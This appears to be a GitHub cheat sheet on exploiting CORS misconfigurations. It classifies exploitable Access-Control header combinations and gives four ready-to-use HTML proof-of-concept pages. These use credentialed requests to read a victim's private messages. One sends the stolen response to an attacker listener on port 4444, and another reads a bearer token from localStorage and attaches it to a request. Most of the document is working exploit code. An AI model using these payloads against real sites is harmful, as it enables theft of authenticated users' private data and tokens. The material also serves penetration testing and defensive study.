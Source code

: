 Very useful scheme from @emgeekboy:

**POORLY IMPLEMENTED, BEST CASE FOR ATTACK:**
```
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**POORLY IMPLEMENTED, EXPLOITABLE:**
```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**BAD IMPLEMENTATION BUT NOT EXPLOITABLE:**
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
or just
Access-Control-Allow-Origin: *
```

**ADITIONAL NOTES**

You can send custom headers adding the following line/s (i.e):

`xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");`

Maybe you can try do some IDOR if the application uses a custom auth header (not exploitable by default):

`xhttp.setRequestHeader("Authorization", "Bearer`

**EXPLOIT #1**
Simple alert popup.

```
<html>
<script>
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.onload = function () {
alert(this.responseText);
};
xhttp.send();
</script>
</html>
```

**EXPLOIT #2**
CSRF Button and alert popup.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = alert(this.responseText);
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#2 EXPLOIT CSRF</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```

**EXPLOIT #3**
CSRF Button and a simple server to listen.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
//document.getElementById("demo").innerHTML = alert(this.responseText);
var nano = new XMLHttpRequest();
nano.open("GET", "http://mycollaborator.web:4444/?c=" + this.responseText, true);
nano.withCredentials = true;
nano.send();
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#3 Exploit EXFILTRATION</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```
**EXPLOIT #4**
Payload from @Ev4Si0N to exploit Auth BEARER Header vía window.localStorage.getItem

```
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract Data</h3>
 
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = "<p>" + this.responseText + "</p>";
    }
  };
  xhttp.open("GET", "https://IP_web_vulnerable/", true);
  xhttp.withCredentials = true;
  xhttp.setRequestHeader("Authorization", window.localStorage.getItem('Authorization'));
  xhttp.send();
}
</script>
 
</body>
</html>
```



